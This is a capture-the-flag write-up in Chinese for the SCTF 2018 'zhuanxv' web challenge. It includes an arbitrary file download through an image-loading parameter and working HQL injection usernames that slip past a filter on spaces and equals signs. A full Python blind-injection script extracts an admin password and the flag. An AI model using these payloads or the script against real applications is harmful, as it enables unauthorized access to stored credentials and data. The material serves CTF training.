 # sctf2018-zhuanxv

## 部署
启动 `./start_up.sh`

停止 `docker-compose down`


## WP


### 第一步：信息收集

信息收集，发现github上遗留的说明。https://github.com/Lazyboxx/zhuanxvapplication 根据提供的url进入登录地址，发现用户名密码已经无法登陆

### 第二步：下载源码

查看网页源代码，发现背景图片的加载方式使用`./loadimage?fileName=web_login_bg.jpg` ，找到任意文件下载点，下载一系列文件。这里限制了下载文件的后缀只有class xml jpg css等。

### 第三步：代码审计

根据github的commit记录 https://github.com/Lazyboxx/zhuanxvapplication/commit/3f34f9b15cf2be3a03ed5f19d9d71cf6427b0111 了解实现类的位置。

从`user.hbm.xml`得知表名和类名映射

从`com/cuitctf/service/impl/UserServiceImpl.class`得知过滤规则，用户名只过滤空格和等号，密码限制只能字母+数字

从`com/cuitctf/dao/impl/UserDaoImpl.class`得知hql语句，变量拼接导致hql注入

### 第四步：HQL注入

HQL需要两步，第一步注入得到管理员密码，第二步根据密码盲注得到flag

注入第一步：

用户名：`aaa'%0aor%0a(select%0asubstring(password,1,1)%0afrom%0aUser%0awhere%0aname%0alike%0a'homamamama')%0alike%0a'a'%0aor%0a''like'`

密码：随意

盲注得到homamamama的密码：6yhn7ujm

注入第二步：

用户名：`aa'%0aor%0a(select%0asubstring(welcometoourctf,1,1)%0afrom%0aFlag)%0alike%0a'a'%0aand%0a''like'`

密码：`6yhn7ujm`

得到flag：`sctf{C46E250926A2DFFD831975396222B08E}`



备注：需要注意的是过滤了等号，可以用like绕过，需要考虑%和_的全匹配性质，答案中没有这两个符号，写脚本的时候注意避开这两个字符的猜测。



exp：
```python
    import requests
    
    url = "http://ip/zhuanxvlogin"
    # url = "http://localhost:9090/zhuanxvlogin"
    
    def first():
    	admin_password = ""
    	for i in range(1,9):
    		for n in range(30,140):
    			guess = chr(n)
    			if guess == "_" or guess == "%":
    				continue
    			username = "aaa'\nor\n(select\nsubstring(password,"+str(i)+",1)\nfrom\nUser\nwhere\nname\nlike\n'homamamama')\nlike\n'"+guess+"'\nor\n''like'"
    			data = {"user.name": username, "user.password": "a"}
    			req = requests.post(url, data=data, timeout=1000).text
    			if len(req)>5000:
    				admin_password = admin_password + guess
    				print "admin password: "+ admin_password
    				break
    	return admin_password
    
    def second(admin_password):
    	flag = ""
    	for i in range(1,50):
    		for n in range(30,140):
    			guess = chr(n)
    			if guess == "_" or guess == "%":
    				continue
    			username = "aa'\nor\n(select\nsubstring(welcometoourctf,"+str(i)+",1)\nfrom\nFlag)\nlike\n'"+guess+"'\nand\n''like'"
    			data = {"user.name": username, "user.password": admin_password}
    			req = requests.post(url, data=data, timeout=1000).text
    			if len(req)>5000:
    				flag = flag + guess
    				print "flag:" + flag
    				break
    
    admin_password = first()	
    second(admin_password)
```



